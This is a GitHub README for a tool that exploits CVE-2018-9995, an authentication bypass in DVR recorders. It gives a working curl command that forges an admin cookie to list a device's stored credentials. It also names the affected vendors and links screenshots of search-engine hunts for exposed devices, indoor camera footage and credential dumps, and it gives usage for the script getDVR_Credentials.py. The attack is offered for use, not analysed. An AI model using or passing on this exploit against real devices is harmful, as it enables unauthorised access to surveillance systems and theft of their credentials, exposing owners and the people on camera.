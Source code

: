 #  [Tool] show DVR Credentiales

	[*] Exploit Title:       "Gets DVR Credentials" 
	[*] CVE:                 CVE-2018-9995
	[*] CVSS Base Score v3:  7.3.* / 10
	[*] CVSS Vector String:  CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N  
	[*] Date:                09/04/2018
	[*] Exploit Author:      Fernandez Ezequiel ( @capitan_alfa )
	
![DVR_wall](screenshot/videoWall.png) 

### Exploit:

```
	$> curl "http://<dvr_host>:<port>/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"

```
## tested in DVR (banner/vendor ?):
	Novo
	CeNova
	QSee
	Pulnix
	XVR 5 in 1 (title: "XVR Login")
	Securus,  - Security. Never Compromise !! - 
	Night OWL
	DVR Login
	HVR Login
	MDVR Login

# On the Wild:
![DVR_dorks_2](screenshot/cow/shodan_1.png) ![DVR_dorks_1](screenshot/cow/google_1.png) 
![DVR_dorks_3](screenshot/cow/shodan_2.png)

## Possible Banners frontend (web):
![DVR_login_1](screenshot/loginFront/login_1.png)
![DVR_login_2](screenshot/loginFront/login_2.png)
![DVR_login_3](screenshot/loginFront/login_3.png)
![DVR_login_4](screenshot/loginFront/login_4.png)
![DVR_login_5](screenshot/loginFront/login_5.png)
![DVR_login_6](screenshot/loginFront/login_6.png)
![DVR_login_7](screenshot/loginFront/login_7.png)
![DVR_login_8](screenshot/loginFront/login_9.png)
![DVR_login_9](screenshot/loginFront/login_9.png)
![DVR_login_10](screenshot/loginFront/login_10.png)

## Indoor:
![DVR_indoor_1](screenshot/indoor/in_x.png)
![DVR_indoor_2](screenshot/indoor/in_x1.png)
![DVR_indoor_3](screenshot/indoor/in_1.png)
![DVR_indoor_4](screenshot/indoor/in_2.png)
![DVR_indoor_5](screenshot/indoor/in_3.png)
![DVR_indoor_6](screenshot/indoor/in_4.png)
![DVR_indoor_7](screenshot/indoor/in_5.png)


# TOOL: "show DVR Credentiales"

## Quick start (wait !)

	usr@pwn:~$ git clone https://github.com/ezelf/************.git
	usr@pwn:~$ cd *************

## help

	usage: getDVR_Credentials.py [-h] [-v] --host HOST [--port PORT]

	[+] Obtaining Exposed credentials

	optional arguments:
	  -h, --help     show this help message and exit
	  -v, --version  show program's version number and exit
	  --host HOST    Host
	  --port PORT    Port

	[+] Demo: python getDVR_Credentials.py --host 192.168.1.101 -p 81


## [pocs] (Output) :
![DVR_poc_4](screenshot/toolOutput/poc_4.png)
![DVR_poc_3](screenshot/toolOutput/poc_3.png)
![DVR_poc_2](screenshot/toolOutput/poc_2.png)
![DVR_poc_1](screenshot/toolOutput/poc_1.png)




